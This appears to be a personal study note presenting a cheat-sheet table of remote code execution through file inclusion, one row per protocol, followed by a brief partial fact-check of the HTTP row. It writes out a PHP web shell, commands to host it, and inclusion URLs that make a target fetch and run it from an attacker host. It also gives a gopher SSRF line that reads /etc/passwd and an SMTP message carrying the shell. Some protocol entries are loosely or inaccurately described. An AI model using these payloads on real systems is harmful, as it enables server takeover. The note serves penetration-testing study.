 ```yaml
---
{"dg-publish":true,"permalink":"/0-learn-like-a-systems-engineer/web/4a-rce/","noteIcon":"","created":"2025-04-15T14:11:19.589-04:00"}
---
```


















| Protocol        | Description                           | Example Exploit Command                                                                                                                                                              | Exploitation URL / Command                                                       |
| --------------- | ------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------- |
| HTTP (80/443)   | Delivers payload via a web request    | `echo '<?php system($_GET["cmd"]); ?>' > shell.php`<br><br>sudo python3 -m http.server <LISTEN_PORT>                                                                                 | http://<TARGET_IP>/index.php?language=http://<ATTACKER_IP>:8081/shell.php&cmd=id |
| FTP (21)        | Loads a malicious file via FTP        | `sudo python -m pyftpdlib -p 21`                                                                                                                                                     | http://<TARGET_IP>/index.php?language=ftp://<ATTACKER_IP>/shell.php&cmd=id       |
| SMB (445)       | Exploits file inclusion via SMB share | `impacket-smbserver -smb2support share $(pwd)`                                                                                                                                       | http://<TARGET_IP>/index.php?language=\\<ATTACKER_IP>\share\shell.php&cmd=whoami |
| TFTP (69)       | Transfers a malicious script via TFTP | `atftp --put shell.php -r shell.php <TARGET_IP>`                                                                                                                                     | http://<TARGET_IP>/index.php?language=tftp://<ATTACKER_IP>/shell.php&cmd=id      |
| Gopher          | Abuses gopher:// to trigger SSRF/RCE  | `gopher://<TARGET_IP>:3306/_%00SELECT%20load_file('/etc/passwd')`                                                                                                                    | Used for SSRF, sometimes leading to RCE                                          |
| LDAP (389)      | Injects LDAP queries for RCE          | `ldapsearch -x -H ldap://<TARGET_IP> -D "cn=admin,dc=example,dc=com" -w password`                                                                                                    | Exploits LDAP misconfigurations                                                  |
| DNS (53)        | Transfers payload via DNS query       | `dig @<TARGET_IP> example.com TXT`                                                                                                                                                   | Often used for<br><br>data exfiltration                                          |
| NFS (2049)      | Mounts remote dirs to execute payload | `mount -t nfs <TARGET_IP>:/exports /mnt/nfs`                                                                                                                                         | Execute payload inside the NFS share                                             |
| WebDAV (80/443) | Uploads and executes a web shell      | `cadaver http://<TARGET_IP>/webdav`                                                                                                                                                  | Upload shell:<br><br>PUT shell.php                                               |
| IMAP (143/993)  | Injects commands via email attachment | `openssl s_client -connect <TARGET_IP>:143 -quiet`                                                                                                                                   | Send payload via IMAP command                                                    |
| SMTP (25/587)   | Sends payload via email headers       | `swaks --to victim@example.com --from attacker@example.com --data "EHLO example.com\r\nMAIL FROM:<attacker>\r\nRCPT TO:<victim>\r\nDATA\r\n<?php system($_GET['cmd']); ?>\r\n.\r\n"` | Payload sent via<br><br>email body                                               |

---

Fact-Check

1. HTTP (80/443)

- Description: Delivers payload via a web request.
    
    - Check: Accurate. HTTP is commonly exploited for RCE via Local File Inclusion (LFI) or Remote File Inclusion (RFI).
        
- Example Exploit Command:
    
    - echo '<?php system($_GET["cmd"]); ?>' > shell.php (creates a PHP web shell).
        
    - sudo python3 -m http.server <LISTEN_PORT> (serves the shell).
        
    - Check: Correct. This sets up a simple HTTP server to deliver the malicious file.
        